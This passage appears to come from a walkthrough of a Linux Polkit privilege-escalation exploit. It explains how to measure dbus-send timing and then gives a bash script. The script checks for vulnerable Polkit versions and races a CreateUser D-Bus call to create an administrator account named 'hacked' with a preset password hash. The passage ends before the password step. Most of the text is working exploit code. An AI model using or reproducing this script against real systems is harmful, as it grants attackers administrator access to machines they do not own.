 And divide that number by two. In this case the result is:
```
real    0m0.006s
user    0m0.002s
sys     0m0.000s
```

Here we take the "real" time and divide it in 2. We therefore get ``0.003``. It might still need some tweaking to work. In this case ``0.002`` ended up working. Therefore we end up with the script:
```bash
#!/bin/bash

# Set the name and display name
userName="hacked"
realName="hacked"

# Set the account as an administrator
accountType=1 

# Set the password hash for 'password' and password hint
password='$5$WR3c6uwMGQZ/JEZw$OlBVzagNJswkWrKRSuoh/VCrZv183QpZL7sAeskcoTB'
passHint="password"

# Check Polkit version
polkitVersion=$(systemctl status polkit.service | grep version | cut -d " " -f 9)
if [[ "$(apt list --installed 2>/dev/null | grep polkit | grep -c 0.105-26)" -ge 1 || "$(yum list installed | grep polkit | grep -c 0.117-2)" ]]; then
    echo "[*] Vulnerable version of polkit found"
else
    echo "[!] WARNING: Version of polkit might not vulnerable"
fi

# Validate user is running in SSH instead of desktop terminal
if [[ -z $SSH_CLIENT || -z $SSH_TTY ]]; then
    echo "[!] WARNING: SSH into localhost first before running this script in order to avoid authentication prompts"
    exit
fi

# Test the dbus-send timing to load into exploit
echo "[*] Determining dbus-send timing"
realTime=$( TIMEFORMAT="%R"; { time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:$userName string:$realName int32:$accountType ; } 2>&1 | cut -d " " -f6 )
halfTime=$(echo "0.002s")

# Check for user first in case previous run of script failed on password set
if id "$userName" &>/dev/null; then
    userid=$(id -u $userName)
    echo "[*] New user $userName already exists with uid of $userid"
else
    userid=""
	echo "[*] Attempting to create account"
    while [[ $userid == "" ]]
    do
        dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:$userName string:$realName int32:$accountType 2>/dev/null & sleep $halfTime ; kill $! 2>/dev/null
        if id "$userName" &>/dev/null; then
	    userid=$(id -u $userName)
            echo "[*] New user $userName created with uid of $userid"
        fi
    done
fi

```